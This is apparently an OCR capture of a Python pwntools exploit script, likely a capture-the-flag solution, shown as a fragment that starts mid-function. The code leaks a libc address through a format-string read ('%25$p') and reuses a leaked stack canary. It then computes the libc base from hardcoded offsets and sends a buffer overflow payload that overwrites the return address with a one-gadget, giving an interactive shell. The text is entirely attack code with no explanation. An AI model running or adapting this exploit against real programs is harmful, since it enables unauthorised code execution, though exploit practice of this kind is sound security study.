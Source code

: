 ```python
	p.recv()
	p.sendline(b"%25$p")
	p.recvline()
	p.recvline()
	lib = p.recvline().strip()
	lib = int(lib, 16)
	return lib

def shell(canary, binsh):
	for i in range (10):
		p.recv()
		p.sendline(b"1")
		p.recv()
		p.sendline(b"1")

	p.recv()
	p.sendline(b'1')
	p.recv()
	p.sendline(b'2')
	p.recv()
	p.sendline(b'Red')
	p.recv()
	p.recv()
	
	buffer = b'A' * 24
	buffer += p64(canary)
	buffer += b'A' * 8
	buffer += p64(binsh)
	p.sendline(buffer)
	p.interactive()

def main():
	can = canary()
	log.info(f"Stack Canary: {hex(can)}")
	lib = libc()
	log.info(f"Libc_Start: {hex(lib)}")
	base = lib - 0x021b97
	log.info(f"Libc Base address: {hex(base)}")
	binsh = base + 0x4f365 
	shell(can, binsh)

main()
```
